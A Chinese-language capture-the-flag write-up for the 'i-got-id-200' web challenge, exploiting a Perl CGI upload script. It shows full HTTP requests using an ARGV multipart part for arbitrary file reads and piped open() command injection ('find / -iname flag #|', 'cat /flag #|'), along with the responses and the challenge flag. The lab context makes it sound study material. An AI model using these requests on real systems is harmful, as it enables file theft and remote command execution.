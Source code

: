 xmax-web-i-got-id-200

打开网站，发现Files选项进去以后可以上传文件，submit按钮作用是将上传的文件内容显示在下面

点击Hello World栏会提示`Hello World from Perl!`看出使用**perl**语言写的

根据perl的语法猜测这个文件上传是这样写的

```per
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    while (<$file>) {
        print "$_";
        print "<br />";
    }
}
```

**漏洞在param()**

`my $file = $cgi->param('file');`

> param() returns a **LIST of ALL** the parameter values but **only** **the first value is inserted into $file**

`while (<$file>)`

>“`<>`” doesn’t work with strings unless the string is **“ARGV”**, so it loops through the ARG values and inserting each one to an `open()` call
>**=> We can read content of any file by assign the scalar value first, so $file will be assigned our scalar value instead of the uploaded file descriptor**

param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。

注意ARGV是PERL默认用来接收参数的数组,不管脚本里有没有把它写出来,它始终是存在的。



> 所以可以通过上传多个文件，第一个文件内容是`ARGV`，并在url上附上参数来达到这个目的。

单独上传一次文件，burpsuit截取的包是这样的

>POST /cgi-bin/file.pl HTTP/1.1
>Host: 111.198.29.45:43313
>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
>Referer: http://111.198.29.45:43313/cgi-bin/file.pl
>Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
>Content-Length: 347
>Connection: close
>Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
>Upgrade-Insecure-Requests: 1
>
>-----------------------------13271546801723549018281431143
>Content-Disposition: form-data; name="file"; filename="1.py"
>Content-Type: text/x-python-script
>
>123
>
>-----------------------------13271546801723549018281431143
>Content-Disposition: form-data; name="Submit!"
>
>Submit!
>-----------------------------13271546801723549018281431143--

要一起上传2个文件，且第一个文件的内容是ARGV的话，只要把与file有关的头和分隔复制一下即可

```txt
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```



**open() in Perl**

> Let me talk about **Perl’s open()** function. This function can also execute commands, because it is used to open pipes. In this case, you can use | as a delimiter, because Perl looks for | to indicate that open() is opening a pipe. An attacker can hijack an open() call which otherwise would not even execute a command by adding a | to his query.



构造查找flag位置的请求头：

```txt
POST /cgi-bin/file.pl?find%20/%20-iname%20flag%20%23| HTTP/1.1
Host: 111.198.29.45:43313
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://111.198.29.45:43313/cgi-bin/file.pl
Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
Content-Length: 498
Connection: close
Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
Upgrade-Insecure-Requests: 1

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```

响应：

```txt
HTTP/1.1 200 OK
Date: Sat, 03 Aug 2019 04:52:10 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 562

<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"
>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
	<head>
		<title>Perl File Upload</title>
		<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	</head>
	<body>
		<h1>Perl File Upload</h1>
		<form method="post" enctype="multipart/form-data">
			File: <input type="file" name="file" />
			<input type="submit" name="Submit!" value="Submit!" />
		</form>
		<hr />
/flag
<br /></body></html>
```

即flag文件在`/flag`里

构造查看flag的请求头：

```txt
POST /cgi-bin/file.pl?cat%20/%20/flag%20%23| HTTP/1.1
Host: 111.198.29.45:43313
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://111.198.29.45:43313/cgi-bin/file.pl
Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
Content-Length: 498
Connection: close
Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
Upgrade-Insecure-Requests: 1

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```

响应：

```txt
HTTP/1.1 200 OK
Date: Sat, 03 Aug 2019 04:53:39 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 601

<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"
>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
	<head>
		<title>Perl File Upload</title>
		<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	</head>
	<body>
		<h1>Perl File Upload</h1>
		<form method="post" enctype="multipart/form-data">
			File: <input type="file" name="file" />
			<input type="submit" name="Submit!" value="Submit!" />
		</form>
		<hr />
cyberpeace{edaa0b9311a29dd3bfbf176adcb61e53}
<br /></body></html>
```

p.s `%23`为`#`的url编码

https://gist.github.com/kentfredric/8f6ed343f4a16a34b08a

